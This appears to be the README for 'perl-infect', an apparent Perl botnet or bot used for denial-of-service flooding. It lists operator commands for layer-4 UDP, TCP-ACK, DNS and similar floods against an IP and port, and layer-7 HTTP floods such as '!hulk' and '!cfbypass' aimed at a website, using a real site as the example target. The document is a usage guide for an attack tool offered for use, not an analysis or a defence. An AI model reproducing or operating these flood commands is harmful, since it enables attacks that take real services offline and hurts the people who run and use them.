 # perl-infect
![](https://i.imgur.com/jVEGffY.png)
powered by inocent ;)

## layer4 commands:

**!udp** ip | !stopudp

**!std** ip port time | !stopstd

**!rand** ip time | !stoprand

**!dns** ip time | !stopdns

**!ack** ip time | !stopack

**!ufo** ip time | !stopufo

**!g3m** ip port | !stopg3m


## layer7 commands:

**!sadattack** http://wwww.google.com.br | !stopsad

**!hulk** http://www.google.com.br | !stophulk

**!gold** http://www.google.com.br | !stopgold

**!httpabuse** http://www.google.com.br | !stopabuse

**!cfbypass** http://www.google.com.br | !stopcf

**!saphyra** http://www.google.com.br | !stopsaphyra
